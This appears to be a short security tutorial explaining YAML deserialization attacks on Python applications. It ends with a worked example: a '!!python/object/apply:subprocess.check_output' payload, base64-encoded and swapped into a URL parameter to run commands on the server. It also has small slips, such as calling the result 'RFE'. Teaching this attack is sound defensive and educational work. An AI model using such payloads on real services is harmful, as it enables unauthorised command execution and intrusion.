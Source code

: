 A *Deserialization Yaml Attack (DES-Yaml)* is a type of vulnerability that can occur in *Python* applications that use *YAML* (*Yet Another Markup Language*) to serialize and deserialize objects.

The vulnerability occurs when an attacker is able to control the YAML input that is passed to a deserialization function in the application. If the application code does not properly validate the YAML input, it can allow an attacker to inject malicious code into the deserialized object.

Once the object has been deserialized, the malicious code can be executed in the context of the application, which may allow the attacker to take control of the system, access sensitive data, or even execute remote code.

Attackers can exploit DES-Yaml vulnerabilities to perform denial-of-service (DoS) attacks, inject malicious code, or even take complete control of the system.

The impact of a Yaml Deserialization Attack depends on the type and sensitivity of the data that can be obtained, but can be very serious. Therefore, it is important for Python application developers to properly validate and filter the YAML input that is passed to deserialization functions, and to use security techniques such as resource limiting to prevent DoS attacks and disabling automatic deserialization of untrusted objects.

# Example

Let's imagine that in a service that runs behind *Python* we see in the URL that is concatenated the following string in *base64*: *eWFtbDogVGhpcyBpcyBhbiBleGFtcGxlIQ\==*

Let's see what it contains after decoding:

```bash
echo -n "eWFtbDogVGhpcyBpcyBhbiBleGFtcGxlIQ==" | base64 -d; echo

# Result
yaml: This is an example!
```

In this type of cases where *YAML* is interpreted we can create a *data* file that includes the following:

```
yaml: !!python/object/apply:subprocess.check_output ['whoami']
```

And then convert it to *base64* keeping it all on one line:

```bash
cat data | base64 -w 0; echo
```

The result can be concatenated to the URL to perform a *Remote Command Execution (RFE)* replacing the original *base64*, applying the entered command when the *YAML* *deserializes* the data.